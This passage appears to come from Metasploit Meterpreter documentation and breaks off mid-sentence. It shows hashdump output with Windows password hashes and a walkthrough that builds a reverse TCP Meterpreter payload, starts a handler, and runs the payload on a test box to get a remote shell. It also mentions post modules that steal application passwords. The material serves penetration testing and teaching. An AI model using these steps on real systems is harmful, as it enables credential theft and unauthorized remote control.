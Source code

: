 The ```hashdump``` commands allows you to dump the Windows hashes if there are the right privileges.
For sxample:

```
meterpreter > hashdump
Administrator:500:e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:92a84e332fa4b09e9850257ad6826566:8fb9a6e155fd6e14a16c37427b68bbb4:::
root:1003:633c097a37b26c0caad3b435b51404ee:f2477a144dff4f216ab81f2ac3e3207d:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:e09fcdea29d93203c925b205640421f2:::
```


## Scenarios

**Setting up for Testing**

For testing purposes, if you don't want to manually generate a payload and start a multi handler
repeatedly, you can use the auto_win32_multihandler.rc resource script in Metasploit to automate that process. Here's how you would use it:

First, run the resource script:

```
$ ./msfconsole -q -r scripts/resource/auto_win32_multihandler.rc 
[*] Processing scripts/resource/auto_win32_multihandler.rc for ERB directives.
[*] resource (scripts/resource/auto_win32_multihandler.rc)> Ruby Code (776 bytes)
lhost => 192.168.1.199
lport => 4444
[*] Writing 73802 bytes to /Users/metasploit/.msf4/local/meterpreter_reverse_tcp.exe...
[*] windows/meterpreter/reverse_tcp's LHOST=192.168.1.199, LPORT=4444
[*] windows/meterpreter/reverse_tcp is at /Users/metasploit/.msf4/local/meterpreter_reverse_tcp.exe
payload => windows/meterpreter/reverse_tcp
lhost => 192.168.1.199
lport => 4444
exitonsession => false
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] Starting the payload handler...
msf exploit(handler) > 
```

Next, go to your ~/.msf4/local directory, you should see meterpreter_reverse_tcp.exe in there.
Upload that payload to your test box and execute it. You should receive a connection.

**Using a Post Module**

One of the best things about Meterpreter is you have access to a variety of post exploitation
modules, specifically for the multi and Windows categories. Post modules provide you with more capabilities to
collect data from the remote machine automatically. For example, you can steal passwords
from popular applications and enumerate or modify system settings.

To use a post module from the Meterpreter prompt, simply use the ```run``` command:
